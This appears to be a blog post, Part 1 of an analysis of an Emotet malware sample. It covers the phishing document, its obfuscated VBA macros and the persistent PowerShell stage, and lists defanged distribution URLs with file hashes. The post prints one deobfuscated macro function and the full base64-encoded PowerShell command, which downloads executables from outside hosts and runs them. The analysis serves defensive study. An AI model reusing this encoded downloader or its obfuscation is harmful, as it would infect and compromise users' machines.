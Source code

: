 ```yaml
---
title: Emotet malware analysis. Part 1.
description: Analyzing Emotet malware, a trojan that is spread via phishing emails, malicious links and targets individuals, companies and governments.
layout: post
permalink: emotet-malware-analysis-part-1
image: "img/emotet_malware/emotet-malware.jpg"
tags: cyber
---
```

This is Part 1 of Emotet malware analysis I'm planning to post. It covers phases 1 and 2 of the attack, specifically phishing and establishing persistence in the infected system. Emotet is spread via phishing emails containing malicious links or attachments, and targets everyone (individuals, companies and governments).

## Phase 1. Malicious email and document.

First phase of the attack starts with a Phishing email. Usually subject, layout, attachments and links are modified periodically by attackers. In this article I'm going to analyze [this sample from VirusTotal](https://www.virustotal.com/#/file/f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c/detection "Emotet's attachment sample").

[ ![VirusTotal Sample](../img/emotet_malware/virustotal_sample.jpg){:.post_image} ](../img/emotet_malware/virustotal_sample.jpg)

One of Emotet's characteristics is constantly changing content of the phishing emails. Usually these contain a malicious link or attachment. This article covers the sample which was spread using via following links:

|URL|
|---|
|hxxps://www.tenderheartfoundation.org/knqimf/muwcu-xh8fa-vnewt/|
|hxxp://clyckmedia.com/clientes/ylhq8-zg1ue-iibdnyco/|
|hxxp://noithathopehome.com/8brl9if/hldd-m2v2fy-xavkpbbl/|
|hxxp://cllcanada.ca/2010/lmef-jmlr1n-ftkktgp/|
|hxxp://www.smilefy.com/it3fqqo/rnk6-9mm14-fcnp.view/|
|hxxp://cadsupportplus.com/assets/nwi2z-20bew-ffuwbfmt/|
|hxxp://www.sdhjesov.cz/wordpress/papcc-koe6n-lsric.view/|
|hxxp://bigkidneys.com/42QQXOURJ/gf1lm-hmr0c-lnkcfak/|
|hxxp://compraventachocados.cl/css/hgkhx-lin1b-zjkebwycv/|
|hxxp://cruelacid.com/icon/bmza-8dlyf-jemlc/|
|hxxp://ecommercedefinitivo.com.br/cursos/ryyjt-tnxm7-byxukc/|
|hxxp://annual.fph.tu.ac.th/wp-content/uploads/ikvv-lt7rlt-bqcnmly/|
|hxxp://dbtools.com.br/mailer/ezsvr-mqo7i-zgysfrmwr/|
|hxxp://demu.hu/wp-content/2h2z2-errsh-sxwqgscp/|
|hxxp://georgekiser.com/test/z6uwt-r0459s-rqkv.view/|
|hxxp://wdl.usc.edu/wp-includes/zvlp-s69lox-wrkbb.view/|
|hxxp://dictionary.me/js/bbrj3-tq4eh-izxcuhnb/|
|hxxp://duncaninstallation.com/images/u32g-mdxys3-gjcwkz/|
|hxxp://devpro.ro/misc/3wa1-zykhgf-xcjqnfs/|

All URLs above, once accessed, drop a Microsoft Office Document with macros in it.

|Checksum|File type|File Size|
|---|---|---|
|f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c|MS Word Document|246KB (251904 bytes)|

{% include adsense.html %}

### Analysis.

Based on the result we get by running `file` command against this sample, it looks like this document has 1 page and doesn't contain any words.

```bash
f5e9c63713c7ff968f4958a9b5161e78af05f21493e56555734b89f55b2be24c: Composite Document File V2 Document, Little Endian, 
Os: Windows, Version 6.1, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, 
Create Time/Date: Mon Mar 11 21:32:00 2019, Last Saved Time/Date: Mon Mar 11 21:32:00 2019, Number of Pages: 1, 
Number of Words: 0, Number of Characters: 5, Security: 0
```

Using `Oletools` to get the list of document's objects, 3 macros elements have been found:

```bash
  7:        74 'Macros/PROJECTwm'
  8: M   70540 'Macros/VBA/S1ADDQ1A'
  9: M   14650 'Macros/VBA/YBB1wA'
 10:     49987 'Macros/VBA/_VBA_PROJECT'
 11:      1344 'Macros/VBA/__SRP_0'
 12:       110 'Macros/VBA/__SRP_1'
 13:       436 'Macros/VBA/__SRP_2'
 14:       187 'Macros/VBA/__SRP_3'
 15:       601 'Macros/VBA/dir'
 16: M    9719 'Macros/VBA/mA4QAX4'
 17:      4096 'WordDocument'
```

### Extraction. 

Objects 8, 9 and 16 contain Visual Basic code, thus of higher interest for further analysis.

|Object|Name|Checksum|Size|
|---|---|---|---|
|8|S1ADDQ1A|34ffc69ff37401b965b04fa4f3c1fbcdffab11fd2e34f9e17a8347b70922398b|44KB (44096 bytes)|
|9|YBB1wA|d51c137e3f591a275628e697d2fbb305cc3c630455480508184b45753608d973|8.8KB (8956 bytes)|
|16|mA4QAX4|d2e56d56ced7ed8de5f701a873086c8134e1311dd574a607a45023f38d5ecaf7|5.6KB (5671 bytes)|

Out of all extracted parts of the script, `mA4QAX4` is the _entry point_ and starts the execution once the document is opened. Whole VBS code is obfuscated, as seen in the image below.

[ ![Macros Entry Point](../img/emotet_malware/macros_entry.png){:.post_image} ](../img/emotet_malware/macros_entry.png)

{% include adsense2.html %}

All three parts are dependent on each other and have to be merged, for further analysis. You can find it [HERE](https://www.virustotal.com/gui/file/50536aaf9cc87b6cf5b3fcd1ef5c11f348737ef28f220872bcbdfb56813c68bc/detection "Merged version").

The call chain looks like this:

1. autoopen();
2. iQwUcAAU(param):
  - Creates **Win32_ProcessStartup** class;
  - Creates an object of the class by calling **Create** method;
  - Passes _param_ string as command argument, thus starting the execution;

Value of _param_ consists of concatenated results of following functions: `SQoBUAA`, `vDXBUQ`, `rDCAQQcA`, `pAADAADD`, `k1kGUAB`, `cAABQDw`. All these functions are similar in terms of logic and were easy to de-obfuscate. Below is the _clean_ version of `SQoBUAA`:

```bash
Function SQoBUAA()
On Error Resume Next
jkQBUx = "l -" + "nop" + " -e" + "n" + "c" + " JA" + "BHA" + "G" + "8Aa" + "wB" + "HA" + "E" + "M" + "AN" + "A" + "B" + "B" + "A" + "D" + "QA" + "PQ" + "A" + "oAC"
lBADQoU = "cAe" + "gBf" + "AC" + "cAK" + "w" + "An" + "AEE" + "AWg" + "AnA" + "CsA" + "Jw" + "Br" + "A" + "G8A" + "RAB"
tcoAAAAQ = "B" + "ACc" + "A" + "K" + "Q" + "A7A" + "CQ" + "AU" + "gBf" + "AEE" + "A" + "a" + "w" + "AxA" + "F8"
HAQUxA_ = "AQQ" + "BBA" + "D0" + "Abg" + "BlA" + "Hc" + "ALQ" + "BvA" + "GI" + "Aa" + "gBl" + "AG" + "MAd" + "A" + "AgA" + "E" + "4" + "A" + "Z" + "QB0" + "A" + "C" + "4A" + "VwB" + "lAG"
tUQokAA = "IA" + "Qw" + "Bs" + "AGk" + "AZQ" + "Bu" + "AH" + "Q" + "A" + "O" + "wA" + "kAG" + "k" + "AVQ" + "Bv" + "AF" + "8AR" + "ABB" + "AD" + "0" + "AK" + "AA" + "n" + "A" + "GgA"
cUAAoX = "d" + "AAn" + "ACs" + "AJw" + "B0" + "AH" + "A" + "AOg" + "A" + "vA" + "C8A" + "Yg" + "B" + "pA" + "G" + "U" + "A" + "ZAB" + "l" + "A" + "H" + "I" + "A" + "bQ" + "Bh"
AkQG_A = "A" + "Cc" + "AKw" + "An" + "AG" + "4AL" + "g" + "B" + "uAG" + "UAd" + "AA" + "vAG" + "wA" + "ZQB" + "zAG" + "wA" + "a" + "QBl"
SQoBUAA = jkQBUx + lBADQoU + tcoAAAAQ + HAQUxA_ + tUQokAA + cUAAoX + AkQG_A
End Function
```

## Phase 2. Persistent Powershell.

A base64 encoded powershell script is extracted and set to run at system's startup, by the document macros.

```powershell
powershell -nop -enc JABHAG8AawBHAEMANABBADQAPQAoACcAegBfACcAKwAnAEEAWgAnACsAJwBrAG8ARABBACcA
KQA7ACQAUgBfAEEAawAxAF8AQQBBAD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAOwAkAGkAVQBvAF8ARABBAD0AKAA
nAGgAdAAnACsAJwB0AHAAOgAvAC8AYgBpAGUAZABlAHIAbQBhACcAKwAnAG4ALgBuAGUAdAAvAGwAZQBzAGwAaQBlAC8AbAAnACsAJwBMAC8AJwArACcAQABoAH
QAdABwADoALwAnACsAJwAvAG4AaQBzAHMAYQAnACsAJwBuAGIAYQAnACsAJwBjAGcAaQBhACcAKwAnAG4AZwAnACsAJwAuAGMAJwArACcAbwBtAC8AdwBwAC0AY
wBvACcAKwAnAG4AdABlAG4AdAAnACsAJwAvAHgAUgAnACsAJwAzAC8AJwArACcAQAAnACsAJwBoAHQAdAAnACsAJwBwADoALwAnACsAJwAvAGUAcQB1AGkAZABh
AGQAZABlAGcAZQBuAGUAcgAnACsAJwBvAC4AJwArACcAaQB6AHQAJwArACcAYQBjAGEAbABhAC4AdQAnACsAJwBuAGEAbQAuAG0AeAAvACcAKwAnAHcAcAAtAGE
AZABtAGkAbgAvACcAKwAnAFgAUABGAC8AQABoAHQAdABwADoALwAvAHcAdwB3AC4AJwArACcAegAnACsAJwBlAHMAdABlAHYAZQBuAHQAJwArACcAcwAuAGMAbw
AvAHcAcAAtACcAKwAnAGkAJwArACcAbgBjAGwAdQBkAGUAcwAvAEcAJwArACcASgBBACcAKwAnAG8ALwBAAGgAdAB0AHAAJwArACcAOgAvAC8AJwArACcAcwB0A
HkAJwArACcAbABpACcAKwAnAHMAaABsAGEAYgAuAHcAZQBiAHAAaQB4AGEAYgB5AHQAJwArACcAZQAnACsAJwAuAGMAJwArACcAbwBtAC8AdAAnACsAJwBoAGoA
bwB3AHIAawA1ACcAKwAnAGUALwA5AFUARwAvACcAKQAuAFMAcABsAGkAdAAoACcAQAAnACkAOwAkAHYAWgBBAEEAQgA0AD0AKAAnAFEAQwBBAEIAJwArACcAQgB
BAFUAJwApADsAJABKAFUAQQBrAEEAQQAgAD0AIAAoACcANAA4ACcAKwAnADYAJwApADsAJABGAGsAWgBBAEQAWgBVAD0AKAAnAGoAJwArACcANABfAEEAQQBCAE
EAJwApADsAJABtAFEAVQBrAHcARwA9ACQAZQBuAHYAOgB1AHMAZQByAHAAcgBvAGYAaQBsAGUAKwAnAFwAJwArACQASgBVAEEAawBBAEEAKwAoACcALgBlACcAK
wAnAHgAZQAnACkAOwBmAG8AcgBlAGEAYwBoACgAJAByAEIAQQBCAEQAbwAgAGkAbgAgACQAaQBVAG8AXwBEAEEAKQB7AHQAcgB5AHsAJABSAF8AQQBrADEAXwBB
AEEALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwAZQAoACQAcgBCAEEAQgBEAG8ALAAgACQAbQBRAFUAawB3AEcAKQA7ACQAQwBYAGsAQQBBADQAQQA9ACgAJwBWADQ
AQgBBACcAKwAnAEEAawBBACcAKQA7AEkAZgAgACgAKABHAGUAdAAtAEkAdABlAG0AIAAkAG0AUQBVAGsAdwBHACkALgBsAGUAbgBnAHQAaAAgAC0AZwBlACAANA
AwADAAMAAwACkAIAB7AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgACQAbQBRAFUAawB3AEcAOwAkAG4ARABBAEEAdwBvAFgAPQAoACcAcwAnACsAJwBvAEEAeABBA
EQAJwApADsAYgByAGUAYQBrADsAfQB9AGMAYQB0AGMAaAB7AH0AfQAkAGMAdwBRAEEAQQBRAHgAPQAoACcARQBCAG8AYwAnACsAJwBBAEEAJwApADsA
```
Once decoded, several URLs pop up which drop phase 3 PE files.

[ ![Decoded powershell](../img/emotet_malware/powershell_decoded.png){:.post_image} ](../img/emotet_malware/powershell_decoded.png)

{% include adsense.html %}

Totally there are 5 different websites, hosting Emotet malware.

|URL|Dropped PE Checksum|Size|
|---|---|---|
|hxxp://biederman.net/leslie/lL/|e76900b9b50306564c415423e0eb28463722b0427186134ba301209b4ed2f440|180KB (183560 bytes)|
|hxxp://nissanbacgiang.com/wp-content/xR3/|5c2fbc0eaae6ccc8342c22325f0aca1e989beec8d578e3fe57722b807a46c773|180KB (183560 bytes)|
|hxxp://equidaddegenero.iztacala.unam.mx/wp-admin/XPF/|bc0d53d74f3f4ef286b4f4caeb8d8b77e32cc17b808dd0de5674842ad713dd72|180KB (183560 bytes)|
|hxxp://stylishlab.webpixabyte.com/thjowrk5e/9UG/|1c06da405051cfc9f68dbb404e338abb90a38db29f86f17e01487ac2c921c05d|251KB (256264 bytes)|
|hxxp://www.zestevents.co/wp-includes/GJAo/|403 HTTP Error|N/A|

## Conclusion.

Looks like the group behind Emotet, haven't focused on heavily obfuscating phase 1 and 2 scripts. Analysis of downloaded samples to follow in Part 2 of this article.
